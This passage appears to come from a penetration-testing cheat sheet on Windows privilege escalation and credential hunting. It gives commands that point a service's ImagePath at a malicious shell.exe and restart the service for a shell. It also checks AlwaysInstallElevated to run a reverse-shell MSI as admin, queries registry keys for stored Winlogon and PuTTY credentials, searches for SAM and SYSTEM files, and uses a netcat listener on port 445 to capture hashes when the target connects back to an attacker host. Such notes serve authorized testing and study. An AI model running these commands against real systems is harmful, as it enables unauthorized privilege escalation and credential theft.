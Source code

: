 ``` powershell
sc config svc depend= ""
```

Turn it off and back on again
``` powershell
net start/stop svc
```

## Registry 
``` powershell
# Query configuration of registry entry of the service
reg query HKLM\System\CurrentControlSet\Services\svc_name

# Point the ImagePath to malicious executable
reg add HKLM\SYSTEM\CurrentControlSet\services\svc_name /v ImagePath /t REG_EXPAND_SZ /d C:\path\shell.exe /f

# Start/stop the service to get the shell
net start/stop svc

# Execute a reverse_shell.msi as admin
# Manually, both query's output should be 0x1 to exploit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Credentials or Hashes

### Finding credentials
Common creds location, always in plaintext
``` powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

Look for interesting files that may contain creds
``` powershell
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
```

### Extracting credentials
**No Admin**
SMB can be used to extract credentials.<br>

First check if target connects back<br>
Start a listener on 445

``` bash
sudo nc -nvlp 445
```
Get target to connect to it 
``` powershell
copy \\kali_ip\test\file
```
If nc shows connection, it means hash can be extracted
